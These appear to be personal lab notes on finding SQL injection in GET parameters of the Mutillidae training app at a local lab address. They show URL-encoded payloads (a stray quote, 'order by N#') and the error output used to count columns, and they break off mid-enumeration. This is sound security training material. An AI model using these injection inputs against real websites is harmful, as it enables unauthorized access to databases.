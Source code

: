 ### Discovering SQL Injections in GET

* In the previous labs i was injecting SQL statements in the text field where the username and password are.
* Now i'm going to test in the url which is GET HTTP Method.

* So i'm first going to to inject a single quote to see if the page is vulnerable.

```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=admin%27&password=&user-info-php-submit-button=View+Account+Details
```

```
SELECT * FROM accounts WHERE username='admin'' AND password=''

You have an error in your SQL syntax;
```

* So yes the its vulnerable.
* Now lets say we want to find the number of columns in a particular table, we can use the order by SQL statement.

* We would use the following statement.

```
SELECT * FROM accounts WHERE username='admin' order by 1#' and password=''
```

* The query after the comment will not be executed.
```
http://10.0.2.5/mutillidae/index.php?page=user-info.php&username=noone%27%20order%20by%201%23&password=noone&user-info-php-submit-button=View+Account+Details
```

* We have to url encode non printable characters.

* Now we recieve two users.

```
Username=noone
Password=noone
Signature=noone

Username=noone
Password=noone
Signature=noone 
```

* I accidently created two same users.

* Now we can check how many columns there are in the table through trial and error.
* We first start off by order by 12 to see if there are 12 columns in the table.

```
Error executing query: Unknown column '12' in 'order clause'
```

* It give me a error telling me that there are isn't 12 columns in the table.
* So now we can try a lower number maybe 6.
